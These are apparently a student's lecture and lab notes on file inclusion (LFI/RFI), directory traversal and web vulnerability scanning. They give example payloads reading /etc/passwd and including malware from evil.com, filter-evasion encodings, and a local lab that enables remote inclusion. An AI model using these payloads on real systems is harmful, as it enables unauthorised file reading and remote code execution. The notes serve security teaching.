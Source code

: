 # File Inclusion and Vulnerability Scanning

## Lecture Notes: LFI and RFI

### Web Application Review

* web applications are often built on default file system setups (ex. /var/www/html) with default files (ex. index.html)

### Directory Traversal

* web applications don't always properly validate user input
* attacker can read files without authorization
* most common method is ../ or ..\\

### Directory Traversal vs. File Inclusion

* directory traversal can lead to file inclusion
* execution is the main difference

### LFI and RFI

* Local File Inclusion
  * attackers use local files to exploit areas of the application vulnerable to file inclusion
  * ex. website.com/view.php?file=file.txt | website.com/view.php?file=../../etc/passwd
* Remote File Inclusion
  * attackers use remote files to exploit areas of the application vulnerable to file inclusion
  * ex. website.com/view.php?file=file.txt | website.com/view.php?file=http://evil.com/malware.php

### Evading Input Sanitization

* URL encode parameters
  * ../ -> %2e%2e%2f
* null byte
  * ../../etc/passwd%00.txt

## Lecture Notes: Vulnerability Scanning

* a technique used to identify hosts/host attributes and associated vulnerabilities
* pros:
  * fast
    * less expensive than a pentest
    * used by pentesters during a time-boxed engagement
  * can usually be automated
* cons:
  * not as thorough
  * false positives
  * ratings can be subject to change
    * environment
    * configuration
    * data
  * not stealthy by default
* why use?
  * compliance
  * easy
  * fast

### Types of Scanners

* network
* web application

### Examples of Scanners

* traditional
  * OpenVAS
  * Nessus
  * Rapid7
* web application
  * Nikto
  * Burp suite
  * ZAP

## Activity: Scanning with Nikto

```
nikto -host 10.0.5.24
```

## Activity: File Inclusion Vulnerabilities

```
mkdir file-inclusion
cd file-inclusion
nano index.php
nano page1.html
nano page2.html
nano page3.html
php -S 127.0.0.1:9000
# navigate to 127.0.0.1:9000 in web browser
nano rfi.html
python3 -m http.server 8000
cp /etc/php/8.1/cli/php.ini .
nano php.ini
# change allow_url_include to On
php -S 127.0.0.1:9000 -c php.ini
```

## Bifur and Activities Notes

* was able to use the "Inspect" feature to change the file being requested
* can use ; to string commands together
* can use PHP files via RFI to run commands (system function in PHP)
